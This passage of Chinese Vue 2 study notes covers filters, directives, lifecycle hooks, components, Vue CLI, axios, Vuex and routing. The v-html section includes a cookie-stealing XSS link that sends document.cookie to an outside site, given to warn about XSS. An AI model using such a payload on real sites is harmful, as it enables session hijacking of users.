		<textarea v-model.lazy="userInfo.other"></textarea> <br/><br/>
		<input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="http://www.atguigu.com">《用户协
议》</a>
		<button>提交</button>
	</form>
</div>
```

```js
new Vue({
	el:'#root',
	data:{
		userInfo:{
			account:'',
			password:'',
			age:18,
			sex:'female',
			hobby:[],
			city:'beijing',
			other:'',
			agree:''
		}
	},
	methods: {
		demo(){
			console.log(JSON.stringify(this.userInfo))
		}
	}
})
```

### 1-15 过滤器

#### 1. 定义

- 对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。

#### 2. 语法
1. 注册过滤器：`Vue.filter(name,callback) --- 全局` 或 `new Vue{filters:{}} --- 局部`
2. 使用过滤器：`{{ xxx | 过滤器名}} --- 插值语法` 或  `v-bind:属性 = "xxx | 过滤器名" --- v-bind`

#### 3. 备注
1. 过滤器也可以接收额外参数、多个过滤器也可以串联
2. 并没有改变原本的数据, 是产生新的对应的数据

一个网站 `BootCDN` ：有很多免费的第三方库，比如处理日期的：moment.js 或 day.js

```html
<div id="root">
	<h2>显示格式化后的时间</h2>
	<!-- 计算属性实现 -->
	<h3>现在是：{{fmtTime}}</h3>
	<!-- methods实现 -->
	<h3>现在是：{{getFmtTime()}}</h3>
	<!-- 过滤器实现 -->
	<h3>现在是：{{time | timeFormater}}</h3>
	<!-- 过滤器实现（传参） -->
	<h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3> 
    <!-- 一级一级往后传，time 传给 timeFormater，timeFormater 的返回结果再传给 mySlice -->
	<h3 :x="msg | mySlice">尚硅谷</h3>
</div>
<div id="root2">
	<h2>{{msg | mySlice}}</h2>
</div>
```

```js
//全局过滤器，#root2容器中也能用
Vue.filter('mySlice',function(value){
	return value.slice(0,4) // 截取前4个字符
})
		
new Vue({
	el:'#root',
	data:{
		time:1621561377603, //时间戳
		msg:'你好，尚硅谷'
	},
	computed: {
		fmtTime(){
			return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
		}
	},
	methods: {
		getFmtTime(){
			return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
		}
	},
	//局部过滤器，只能在#root这个容器中使用
	filters:{
         // 有传入的str则以传入的str的格式为准，否则以这个为准
		timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){ 
			// console.log('@',value)
			return dayjs(value).format(str)
		}
	}
})
```

### 1-16 内置指令

#### 1. v-text指令

- 我们学过的指令：
  		v-bind	: 单向绑定解析表达式, 可简写为 :xxx
    		v-model : 双向数据绑定
    		v-for  	 : 遍历数组/对象/字符串
    		v-on       : 绑定事件监听, 可简写为@
    		v-if 	    : 条件渲染（动态控制节点是否存存在）
    		v-else    : 条件渲染（动态控制节点是否存存在）
    		v-show  : 条件渲染 (动态控制节点是否展示)
- v-text指令：
    		1. 作用：向其所在的节点中渲染文本内容。
        		2. 与插值语法的区别：v-text会`替换掉节点中的内容`，{{xx}}则不会。

```html
<div>你好，{{name}}</div>
<div v-text="name"></div>
<div v-html="str"></div>
```

```js
name:'你好啊',
str:'<h3>你好啊！</h3>',
str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
```

#### 2. v-html指令

1. 作用：向指定节点中渲染包含html结构的内容。

2. 与插值语法的区别：
   			(1). v-html会替换掉节点中所有的内容，{{xx}}则不会。
      			(2). v-html可以识别html结构。

3. 严重注意：v-html有安全性问题！！！！
   			(1). 在网站上动态渲染任意HTML是非常危险的，容易导致`XSS攻击`。
      			(2). 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

   ![cookie1](.\images\cookie1.png)

   ![cookie2](.\images\cookie2.png)

   ![cookie3](.\images\cookie3.png)

   一旦被别人获取到你的cookie（包含身份验证信息），他就能冒充你登录这个账号，很危险

   `document.cookie`可以获取cookie，不过不能获取`HttpOnly`打了√的cookie信息

#### 3. v-cloak指令（没有值）

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
2. 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}（闪现）的问题。

```html
<style>
	[v-cloak]{
		display:none;
	}
</style>

<h2 v-cloak>{{name}}</h2>
```

#### 4. v-once指令（没有值）

1. v-once所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```html
<h2 v-once>初始化的n值是:{{n}}</h2>
<h2>当前的n值是:{{n}}</h2>
<button @click="n++">点我n+1</button>
```

#### 5. v-pre指令（没有值）

1. 跳过其所在节点的编译过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

```html
<h2 v-pre>Vue其实很简单</h2>
<h2 >当前的n值是:{{n}}</h2>
<button @click="n++">点我n+1</button>
```

### 1-17 自定义指令

#### 1. 定义语法

1. 局部指令：

   ```
   new Vue({								new Vue({
   	directives:{指令名:配置对象}   或   		directives{指令名:回调函数}
   }) 										})
   ```

2. 全局指令：

   ```
   Vue.directive(指令名,配置对象)     或        Vue.directive(指令名,回调函数)
   ```

#### 2. 配置对象中常用的3个回调

```
1. bind：指令与元素成功绑定时调用。
2. inserted：指令所在元素被插入页面时调用。
3. update：指令所在模板结构被重新解析时调用。
```

#### 3. 备注

 	1. 指令定义时不加v-，但使用时要加v-；
 	2. 指令名如果是多个单词，要使用`kebab-case`命名方式，不要用`camelCase`命名。并且若命名中有`-`，则必须用引号引起来（也就是用标准写法）

```
需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。
```

```html
<!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2> -->
<h2>放大10倍后的n值是：<span v-big="n"></span> </h2>
<button @click="n++">点我n+1</button>
<input type="text" v-fbind:value="n">
```

```js
//定义全局指令
Vue.directive('fbind',{
	//指令与元素成功绑定时（一上来）
	bind(element,binding){
		element.value = binding.value
	},
	//指令所在元素被插入页面时
	inserted(element,binding){
		element.focus()
	},
	//指令所在的模板被重新解析时
	update(element,binding){
		element.value = binding.value
	}
})

new Vue({
    ...
    directives: {
        //big函数何时会被调用？1.指令与元素成功绑定时（一上来）。2.指令所在的模板被重新解析时。
        /* 'big-number'(element,binding){ //会传入两个值 element-元素(span) 和 binding-绑定的值(n)
        	element.innerText = binding.value * 10
        }, */
        big(element, binding) { // 此处是个函数，其实就是bind()和update()这两个回调
            console.log('big', this) //注意此处的this是window
            element.innerText = binding.value * 10
        },
        fbind: { // 此处是个对象，包含三个回调
            //指令与元素成功绑定时（一上来）
            bind(element, binding) {
                element.value = binding.value
            },
            //指令所在元素被插入页面时
            inserted(element, binding) {
                element.focus() // 让其所绑定的input元素获取焦点
            },
            //指令所在的模板被重新解析时
            update(element, binding) {
                element.value = binding.value
            }
        }
    }
})
```

### 1-18 生命周期

#### 1. 引出生命周期

1. 又名：生命周期回调函数、生命周期函数、生命周期钩子（常用说法）。
2. 是什么：Vue在关键时刻帮我们调用的一些特殊名称的`函数`。
3. 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
4. 生命周期函数中的this指向是`vm` 或 `组件实例对象`。

```html
<div id="root">
	<h2 :style="{opacity}">欢迎学习Vue</h2> <!-- 这里因为属性值属性名都是opacity，所以用了简写形式 -->
</div>
```

```js
new Vue({
    el: '#root',
    data: {
        opacity: 1
    },
    methods: {
        /* 如果把定时器写在这里，且在模板中用{{change()}}调用就会导致不断开启新的定时器，因为改变了opacity，模板就会重新渲染，于是又再次调用该方法，不断重复这个过程 */
    },
    //Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
    mounted() {
        console.log('mounted', this)
        setInterval(() => {
            this.opacity -= 0.01
            if (this.opacity <= 0) this.opacity = 1
        }, 16)
    },
})
//通过外部的定时器实现（不推荐）
/* setInterval(() => {
	vm.opacity -= 0.01
	if(vm.opacity <= 0) vm.opacity = 1
},16) */
```

#### 2. 分析生命周期

- 一共8个（4对）生命周期钩子，其实还有3个生命周期钩子没体现   ---  nextTick，activated，deactivated  ---

![生命周期](.\images\生命周期.png)

```html
<div id="root" :x="n">
    <h2 v-text="n"></h2>
    <h2>当前的n值是：{{n}}</h2>
    <button @click="add">点我n+1</button>
    <button @click="bye">点我销毁vm</button>
</div>
```

```js
new Vue({
    el: '#root',
    // 若把这个template当模板，则会把上面的div整个都替换掉，即包括<div id="root" :x="n"></div>容器
    // template:`
    // 	<div>
    // 		<h2>当前的n值是：{{n}}</h2>
    // 		<button @click="add">点我n+1</button>
    // 	</div>
    // `,
    data: {
        n: 1
    },
    methods: {
        add() {
            console.log('add')
            this.n++
        },
        bye() {
            console.log('bye')
            this.$destroy()
        }
    },
    watch: {
        n() {
            console.log('n变了')
        }
    },
    beforeCreate() {
        console.log('beforeCreate')
    },
    created() {
        console.log('created')
    },
    beforeMount() {
        console.log('beforeMount')
    },
    mounted() {
        console.log('mounted');
        // console.log(this.$el instaceof HTMLElement); // 这句话可以检测this.$el是不是一个真实DOM
    },
    beforeUpdate() {
        console.log('beforeUpdate');
        // debugger; // 加上这句可以在这里设置断点
    },
    updated() {
        console.log('updated')
    },
    beforeDestroy() {
        console.log('beforeDestroy')
    },
    destroyed() {
        console.log('destroyed')
    },
})
```

#### 3. 总结

1. 常用的生命周期钩子：
     		1. mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等`【初始化操作】`。
          		2. beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等`【收尾工作】`。
2. 关于销毁Vue实例
     		1. 销毁后借助Vue开发者工具看不到任何信息。
          		2. 销毁后自定义事件会失效，但原生DOM事件依然有效。(比如@click绑定的事件)
          		3. 一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。



## 二、 Vue组件化编程

###  2-1. 模块与组件、模块化与组件化

#### 1.  模块 

1. 理解: 向外提供特定功能的 js 程序, 一般就是一个 js 文件 
2. 为什么要用模块: js 文件很多很复杂 
3. 作用: 复用 js, 简化 js 的编写, 提高 js 运行效率

#### 2. 组件 

1. 理解: 用来实现局部(特定)功能效果的代码集合(html/css/js/image…..) 
2. 为什么: 一个界面的功能很复杂
3. 作用: 复用编码, 简化项目编码, 提高运行效率

#### 3. 模块化

- 当应用中的 js 都以模块来编写的, 那这个应用就是一个模块化的应用

#### 4. 组件化

- 当应用中的功能都是多组件的方式来编写的, 那这个应用就是一个组件化的应用

### 2-2 非单文件组件

#### 1. 基本使用

1. Vue中使用组件的三大步骤
   - 定义组件(创建组件)
   - 注册组件
   - 使用组件(写组件标签)

2. 如何定义一个组件？

   - 使用`Vue.extend(options)`创建，其中options和new Vue(options)时传入的那个options几乎一样，但也有点区别；
     区别如下：
       		1. `el不要写`，为什么？ ——— 最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。
       		2. `data必须写成函数`，为什么？ ———— 避免组件被复用时，数据存在引用关系。(写成函数，那每次调用都会返回一个新的对象，组件被复用时就不会存在冲突)
   - 备注：使用`template`可以配置组件结构（即HTML）。

3. 如何注册组件？

   1.局部注册：靠new Vue的时候传入components选项
   2.全局注册：靠Vue.component('组件名',组件)

4. 编写组件标签

   > <school></school>

```html
<div id="root">
	<hello></hello> <!-- 这里用的是小写，但开发者工具中会自动首字母大写 -->
	<h1>{{msg}}</h1>
	<!-- 第三步：编写组件标签 -->
	<school></school>
	<!-- 第三步：编写组件标签 -->
	<student></student>
</div>
<div id="root2">
	<hello></hello>
</div>
```

```js
//第一步：创建school组件，这里定义组件时只是临时起的名字，真正当标签用时的名字是在components中注册的
const school = Vue.extend({
	template:`
		<div class="demo">
			<h2>学校名称：{{schoolName}}</h2>
			<h2>学校地址：{{address}}</h2>
			<button @click="showName">点我提示学校名</button>	
		</div>
	`,
	// el:'#root', //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
	data(){
		return {
			schoolName:'尚硅谷',
			address:'北京昌平'
		}
	},
	methods: {
		showName(){
			alert(this.schoolName)
		}
	},
})
//第一步：创建hello组件
const hello = Vue.extend({
	template:`
		<div>	
			<h2>你好啊！{{name}}</h2>
		</div>
	`,
	data(){
		return {
			name:'Tom'
		}
	}
})
		
//第二步：全局注册组件
Vue.component('hello',hello)
//创建vm
new Vue({
	el:'#root',
	data:{
		msg:'你好啊！'
	},
	//第二步：注册组件（局部注册）
	components:{ // 这里也是用了对象的简写形式 shool:shool → shool(当然属性名可以再定义为别的，但没必要)
		school,
		student
	}
})
new Vue({
	el:'#root2',
})
```

#### 2. 几个注意点

1. 关于组件名
   - 一个单词组成：
     		1）第一种写法(首字母小写)：school
       		2）第二种写法(首字母大写)：School（开发中常用）
   - 多个单词组成：
     		1）第一种写法(kebab-case命名)：my-school
       		2）第二种写法(CamelCase命名)：MySchool (需要Vue脚手架支持，否则会自动将标签转为小写)（常用）
   - 备注：
     		1）组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。
       		2）可以使用`name配置项`指定组件在`开发者工具`中呈现的名字。
2. 关于组件标签
   - 第一种写法：<school> </school>
   - 第二种写法：<school/>
   - 备注：不用使用脚手架时，<school/>会导致后续组件不能渲染。
3. 一个简写方式
   - `const school = Vue.extend(options)` 可简写为：`const school = options`

#### 3. 组件的嵌套

- 一般都会用一个`app`组件来管理所有的组件

```html
<!-- 准备好一个容器-->
<div id="root"></div>
```

```js
//定义student组件，必须在school之前定义，因为school要用
const student = Vue.extend({
	name:'student',
	template:`
		<div>
			<h2>学生姓名：{{name}}</h2>	
			<h2>学生年龄：{{age}}</h2>	
		</div>
	`,
	data(){
		return {
			name:'尚硅谷',
			age:18
		}
	}
})	
//定义school组件
const school = Vue.extend({
	name:'school',
	template:`
		<div>
			<h2>学校名称：{{name}}</h2>	
			<h2>学校地址：{{address}}</h2>	
			<student></student>
		</div>
	`,
	data(){
		return {
			name:'尚硅谷',
			address:'北京'
		}
	},
	//注册组件（局部）
	components:{
		student
	}
})
//定义hello组件
const hello = Vue.extend({
	template:`<h1>{{msg}}</h1>`,
	data(){
		return {
			msg:'欢迎来到尚硅谷学习！'
		}
	}
})
		
//定义app组件
const app = Vue.extend({
	template:`
		<div>	
			<hello></hello>
			<school></school>
		</div>
	`,
	components:{
		school,
		hello
	}
})
//创建vm
new Vue({
	template:'<app></app>', // 写在这里的好处是：让上面的#root容器看起来干干净净
	el:'#root',
	//注册组件（局部）
	components:{app}
})
```

#### 4. VueComponent

1. school组件本质是一个名为`VueComponent`的构造函数，且不是程序员定义的，是`Vue.extend`生成的。
2. 我们只需要写<school/>或<school></school>，Vue解析时会帮我们创建school组件的实例对象，
   	即Vue帮我们执行的：`new VueComponent(options)`。
3. 特别注意：每次调用Vue.extend，返回的都是一个`全新的VueComponent`！！！！
4. 关于this指向：
   - 组件配置中：
     data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【VueComponent实例对象】。
   - new Vue(options)配置中：
     data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】。
5. VueComponent的实例对象，以后简称`vc`（也可称之为：组件实例对象）。
   	Vue的实例对象，以后简称`vm`。

#### 5. 一个重要的内置关系

1. 一个重要的内置关系：`VueComponent.prototype.__proto__ === Vue.prototype`
2. 为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue原型上的属性、方法。

![分析Vue与VueComponent的关系](.\images\分析Vue与VueComponent的关系.png)

#### 6. others

1. 模板编写没有提示 
2. 没有构建过程, 无法将 ES6 转换成 ES5 
3. 不支持组件的 CSS 
4. 真正开发中几乎不用

### 2-3 单文件组件

- 要让VScode认识.vue文件，高亮显示代码，须安装插件`Vtur`，只要打`<v`回车，就可以搭建一个默认结构

#### 1.  一个.vue 文件的组成(3 个部分)

1. 模板页面

   ```vue
   <template>
   	页面模板
   </template>
   ```

1. JS 模块对象

   ```vue
   <script>
       export default {
           data() {return {}}, 
           methods: {}, 
           computed: {}, 
           components: {}
       }
   </script>
   ```

2. 样式

   ```vue
   <style>
   	样式定义
   </style>
   ```

#### 2. 基本使用

1. 引入组件 `import School from './components/School'`
2. 映射成标签 `components:{School}`
3. 使用组件标签 `<School></School>`



## 三、Vue脚手架（Vue CLI）

### 3-1  初始化脚手架

#### 1. 简介

- Vue 脚手架是 Vue 官方提供的标准化开发工具（开发平台）。
- 官网 [https://cli.vuejs.org/zh/](https://cli.vuejs.org/zh/)
- cli：命令行接口（command-line interface）

#### 2. 步骤

1. （仅第一次执行）：全局安装@vue/cli。

   `npm install -g @vue/cli`

2. 切换到你要创建项目的目录，然后使用命令创建项目(eg. 创建项目hello-world)

   `vue create hello-world`

3. 启动项目（开启内置服务器8080用以支持项目运行）

   `npm run serve`
   
4. 打包项目，将完成的项目打包生成一个dist文件夹（包含html，css，js，favicon.ico文件等静态资源）

   `npm run build`

### 3-2 本章笔记的核心内容在另一个文件里 （Vue 脚手架）

### 3-3 补充

#### 1. 指令

- 如出现下载缓慢请配置 npm 淘宝镜像：

  `npm config set registry https://registry.npm.taobao.org`

- Vue 脚手架隐藏了所有 webpack 相关的配置，若想查看具体的 webpakc 配置， 请执行：

  `vue inspect > output.js`

  就会导出一个output.js文件以便查看配置

- 只要在当前文件夹的url中输入cmd，就可以在当前目录打开命令行工具

- 在当前目录下新建一个文件夹

  `mkdir 文件夹名`

- 清空历史命令

  `cls`

- 运行 npm run serve 之后按 ctrl+c ，此时回答y/n都会停止当前运行的工程，一般再按一次ctrl+c

- 在VScode中打开终端，可以在菜单栏终端→新终端打开，也可以按快捷键，点击终端旁边的+号可以继续写指令，不用把工程给停掉

- 查看webpack的所有版本（目前vue用的是4的最新版本）

  `npm view webpack versions`

- 查看less-loader的所有版本

  `npm view less-loader versions

  要用less语法写样式，须先安装less-loader插件，最新的less-loader是为5.xxx版本的webpack服务的，所以建议安装7版本的，运行如下命令就会自动安装7里的最新版本

  `npm i less-loader@7`

#### 2. 生成id的方法

1. `uuid库`可以生成全球唯一的字符串，这个库很大

2. `nanoid`是uuid的迷你版，库没这么大，生成的字符串也没这么长这么复杂，采用分别暴露

   安装指令： `npm i nanoid`

#### 3. VScode插件

1. `Vetur` 让VScode认识vue文件，代码高亮显示
2. `Vue 3 Snippets` 写vue代码会有代码提示
3. `Open in External App` 用外置的app打开文件，就可以选中文件，右键选择用外置app打开文件，就可以快速查看了

#### 4. 一些方法

1. `str.trim()` ：过滤空格

2. `arrs.forEach( arr => {...} )` ：遍历数组arr

3. `arrs.filter( arr => {...} )` ：过滤数组，返回 返回值为true的arr集合，当`...`只有一条语句时，`{}`可省略

4. `arrs.reduce()` ：用于做条件统计

   ```js
   doneTotal() { // 统计完成的任务数
   	return this.todos.reduce( (pre, todo) => pre 
   + (todo.done ? 1 : 0), 0 ) // (回调函数，初始值)
   },
   ```

5. `arrs.indexOf()`：返回在数组中可以找到一个给定元素的第一个索引，如果不存在，则返回-1。

   `arrs.lastIndexOf()`：返回指定元素（也即有效的 JavaScript 值或变量）在数组中的最后一个的索引，如果不存在则返回 -1，和indexOf()一样第一个参数是待查找元素，第二个参数可选，是开始查找的位置

6. `map.get( key )`：返回对象中的一个指定元素，key是键，返回的是其对应的值，若没能找到，则返回-1

   `map.set( key )`：为对象添加或更新一个指定了键（`key`）和值（`value`）的（新）键值对。

   ```JS
   const map = new Map();
   map.set('bar', 'foo');
   console.log(map.get('bar')); // "foo"
   ```

7. `map.entries( key )`：返回一个新的包含 `[key, value]` 对的 `Iterator` 对象，返回的迭代器的迭代顺序与 `map` 对象的插入顺序相同。

   ```JS
   const iterator = map.entries();
   for(const mp of iterator) {
       console.log(mp); // Array ["bar", "foo"]
   }
   ```

#### 5. 第三方库

- 引入库的时候，如果是第三方的往上放，自己写的往下放
- `npm`：有很多插件，直接搜索即可
  1. `animate.css` ：动画效果

### 3-4 一些效果的实现

#### 1. 点击编辑变成文本框

- 在子组件中，准备一个span和一个input文本框，根据isEdit属性值选择显示哪个，然后绑定点击事件，编写对应的事件处理回调函数
- 因为一开始数据中没有isEdit，所以其值为false，默认只显示span

```html
<span v-show="!todo.isEdit">{{todo.title}}</span>
<input 
	type="text" 
	v-show="todo.isEdit"
	:value="todo.title"
	@blur="handleBlur(todo, $event)"
	ref="inputTitle"
>
<button class="btn btn-edit" @click="handleEdit(todo)">编辑</button>
```

```js
handleEdit(todo) {
	if(todo.hasOwnProperty('isEdit')) { // 判断todo中有无isEdit属性
		todo.isEdit = true
	} else {
		this.$set(todo, 'isEdit', true)
	}
	this.$nextTick(function() { // 在下一次 DOM 更新结束后执行其指定的回调
		this.$refs.inputTitle.focus() // 获取焦点
	})
},
handleBlur(todo, e) { // 失去焦点的事件处理函数
	todo.isEdit = false
	if(!e.target.value.trim()) {
		return alert("输入不能为空")
	}
	this.$bus.$emit('updateTodo', todo.id, e.target.value) // 使用App组件中的方法
}
```

在App组件中编写更新todos数据的函数

```js
updateTodo(id, title) {
	this.todos.forEach(todo => {
		if(todo.id == id) {
			todo.title = title
		}
	})
}
```

#### 2. 动画效果

```vue
<!-- MyList.vue中用transition-group标签把MyItem包裹起来 -->
<transition-group name="todo">
	<MyItem 
		v-for="todo in todos" 
		:key="todo.id"
		:todo="todo"
	/>
</transition-group>
```

## 四、Vue中的ajax

运行 `node server1` ：得到 `服务器server1启动成功了,请求学生信息地址为：http://localhost:5000/students`

### 4-1 常用的发送一个ajax请求的方式

1. xhr：`new XMLHttpRequest()`   `xhr.open()`   `xhr.send()` 是鼻祖，但实际开发中不常用，一般都是对它进行二次封装，比如 jQuery，axios，v-resource
2. jQuery：`$get` `$post` 实际开发中也不常用，其核心是封装DOM操作，而用 react 和 vue 的目的就是减少DOM操作
3. axios：最常用
4. fetch：常用，和 xhr 平级，xhr是js内置的（或者说是window里面有`XMLHttpRequest()`方法），直接就能new一个xhr来用；而fetch也是，window内置对象中直接就有一个fetch方法，直接就能用，直接就能发送请求，且也是promise风格，但它会把返回的数据包两层promise，且其兼容性稍差，IE上不可用
5. v-resource：vue 插件库, vue1.x 使用广泛，官方已不维护，交由其他团队维护，了解即可

综上，推荐在vue中用axios，并且vue官方也是这么推荐的

### 4-2 axios

1. 安装和引入axios：

   ```
   npm i axios
   ```

   ```js
   import axios from 'axios'
   ```

2. 语法：`axios.get(url).then(respond => {})`

3. 跨域：即违背了同源策略

   `http://localhost:8080/` 

   `http 协议名`  `localhost 主机名` `8080 端口号`

   同源策略规定，协议名、主机名、端口号必须一致，而数据请求中服务器端口号5000与8080不一致，于是浏览器发送了请求→服务器收到了并且返回了→但浏览器没给前端，前端拿不到

4. 如何解决跨域问题

   - cors：需麻烦后端人员
   - jsonp：巧妙借用了script src引入资源时不受同源策略限制的特点，但前后端都要麻烦，且只能解决get请求问题，post之类的还是不行（开发中很少用，但面试中常问）
   - 配置一个代理服务器：常用，代理服务器的端口号同前端的一致，浏览器8080 - 代理服务器8080 - 数据请求服务器5000，那么浏览器向代理服务器请求数据就没有跨域问题了，而服务器与服务器之间不用ajax，用传统的http请求就好了

5. 开启8080代理服务器

   - nginx：学习成本高一些，且需要对后端有一定的了解
   - vue-cli：简单一些，在vue.config.js中配置，因为修改了脚手架配置，所以配置后记得把脚手架停掉重新运行

6. 更多详情查看另一个文件中的'Vue中的ajax'

### 4-3 vue-resource使用步骤

1. 安装、引入和使用

   ```
   npm i vue-resource
   ```

   ```js
   import vueResource from 'vue-resource' 
   // 因为vue-resource采用的是默认暴露，所以vueResource这个名字是可以自己定的，不过就写成这样比较好
   Vue.use(vueResource)
   // 使用之后，整个应用当中所有vue实例(vm)和所有组件实例对象(vc)都多了个东东 $http
   ```

2. 和ajax的使用几乎一样，只需在请求数据时，将axios改为this.$http

   语法：`this.$http.get(url).then(respond => {})`

### 4-4  本章笔记的核心内容在另一个文件里 （Vue中的ajax）

### 4-5 github 用户搜索案例（axios实现）

1. 拆分组件：`Search` 和 `List` 两个组件

2. 引入bootstrap.css文件：

   - 在`main.js`中引入 --main.js是入口文件，不建议在这引入

   - 在`App.vue`中引入  --须先在src中创建一个assets静态资源文件夹-css文件夹-把bootstrap.css文件放进去，引入`import './assets/css/bootstrap.css'`，但是这个css样式中用到了Bootstrap自带的fonts文件夹里的资源，所以不引入的话会报错，但是这个案例中没有用到fonts，没必要专门去引入font，此时建议第三种方式

   - 在`index.html`中引入  --须先在public中创建一个css文件夹，把bootstrap.css文件放进去

     ```html
     <!-- 引入第三方样式 -->
     <link rel="stylesheet" href="<%= BASE_URL %>css/bootstrap.css">
     ```

3. 请求数据：

   - 接口地址：`https://api.github.com/search/users?q=xxx`

   - 因为是List要展示数据，所以要将数据交给List

   - 先在Search中请求数据，然后将请求成功后的数据交给List

   ```js
   searchUsers(){
   	//请求前更新List的数据，以对象形式接受更符合语义化规范，也更方便
   	this.$bus.$emit('updateListData',{isFirst:false,isLoading:true,errMsg:'',users:[]}) //顺序可调
   	axios.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(
   		response => {
   			//请求成功后更新List的数据，因为isFirst只在最初请求数据时修改一次即可，所以这里无须传这个值
   			this.$bus.$emit('updateListData',{isLoading:false,errMsg:'',users:response.data.items})
   		},
   		error => {
   			//请求后更新List的数据，同理无须传isFirst值
   			this.$bus.$emit('updateListData',{isLoading:false,errMsg:error.message,users:[]})
   		}
   	)
   }
   ```

   ```js
   data() {
   	return {
   		info:{
   			isFirst:true,
   			isLoading:false,
   			errMsg:'',
   			users:[]
   		}
   	}
   },
   mounted() {
   	this.$bus.$on('updateListData',(dataObj)=>{
   		this.info = {...this.info,...dataObj} // 合并这两个对象里的数据，两者都有的以后者为准
   	})
   },
   ```

## 五、Vuex

### 5-1 Vuex工作原理

![vuex](.\images\vuex.png)

![vuex过程解析](.\images\vuex过程解析.png)

### 5-2 求和案例

1. 选项里的value值会被解析成字符串（不管加不加引号），解决方案如下：

   ```html
   <!-- 1. 在v-model后加上.number（推荐这个，简单）;  
   	 2. 给每个value加:绑定，那么就会把引号里的解析成js语法 -->
   <select v-model.number="n">
   	<option value="1">1</option>
   	<option value="2">2</option>
   	<option value="3">3</option>
   </select>
   ```

2. Vuex版本见另一个文件Vuex

### 5-3 开发者工具Devtools的使用

![Vuex开发者工具](.\images\Vuex开发者工具.png)

### 5-4 本章笔记的核心内容在另一个文件里 （Vuex）

### 5-5 补充

1. actions中的上下文context：包含dispatch、commit、state等可能会用到的东西
   - dispatch：比如处理太繁琐，将一些事情派遣给另一个函数`dispatch('jiaOdd', value)`
   - commit方法：调用mutations中的函数`context.commit('JIA',value)`
   - state：读取状态 `context.state.sum`，其实在这里也能操作数据，但不建议这么做，因为不通过mutations的话开发者工具就捕获不到动作了

2. 为什么要把业务逻辑写在actions，而不直接写在组件里？
   - 因为写在actions里，那这个工程里的所有vm和vc就都能复用这个业务逻辑，尤其是当业务逻辑复杂时

## 六、路由

### 6-1  SPA单页面应用

1. 概念：单页Web应用（single page web application，SPA），就是只有一张Web页面的应用，是加载单个HTML 页面并在用户与应用程序交互时动态更新该页面的Web应用程序。浏览器一开始会加载必需的HTML、CSS和JavaScript，所有的操作都在这张页面上完成，都由JavaScript来控制。用 JavaScript 动态的变换 HTML（采用的是 div 切换显示和隐藏），而不会重新加载或跳转页面

![单页面应用](.\images\单页面应用.png)

2. 特点：

   - 单页 Web 应用（single page web application，SPA）：整个应用只有一个完整的页面。

   - 速度：更好的用户体验，让用户在web app感受native app的速度和流畅
   - MVVM：经典MVVM开发模式，前后端各负其责
   - ajax：重前端，业务逻辑全部在本地操作，数据都需要通过AJAX同步、提交
   - 路由：在URL中采用#号来作为当前视图的地址,改变#号后的参数，页面并不会重载。点击页面中的导航链接不会刷新页面，只会做页面的局部更新。 

## 七、Vue UI 组件库

### 7-1 移动端常用 UI 组件库 

1. Vant  https://youzan.github.io/vant
2. Cube UI https://didi.github.io/cube-ui 
3. Mint UI http://mint-ui.github.io 

### 7-2 PC 端常用 UI 组件库

1. Element UI https://element.eleme.cn   (国产，饿了么打造的，基于vue框架)
2. IView UI https://www.iviewui.com （基于vue）
3. Ant Design Vue https://2x.antdv.com/docs/vue/getting-started-cn （蚂蚁金服打造，基于vue）

### 7-3  使用

```js
//完整引入
//引入ElementUI组件库
// import ElementUI from 'element-ui';
//引入ElementUI全部样式
// import 'element-ui/lib/theme-chalk/index.css';

//按需引入
import { Button,Row,DatePicker } from 'element-ui';

//应用ElementUI
// Vue.use(ElementUI);
Vue.component('atguigu-button', Button);
Vue.component('atguigu-row', Row);
Vue.component('atguigu-date-picker', DatePicker);
```

### 7-4 建议

平时可以打开那些组件网站看看有哪些组件，要用的时候就知道去哪里找，有个印象

## 八、Vue3

### 1. 笔记见`Vue3快速上手.md`

### 2. 补充

1. $attrs：vc中的一个属性，是个对象，包含父组件传的值（未用props接收的，props接收了的值不会出现在$attrs中）
2. $slot：父组件在子组件标签写的内容（即插槽的内容）会以数组的形式被保存在子组件的$slot属性中

3. 遮罩层样式：

   ```css
   .mask{
   	position: absolute;
   	top: 0; bottom: 0; left: 0; right: 0; /*让遮罩层占满整个body*/
   	background-color: rgba(0, 0, 0, 0.5);
   }
   ```

   
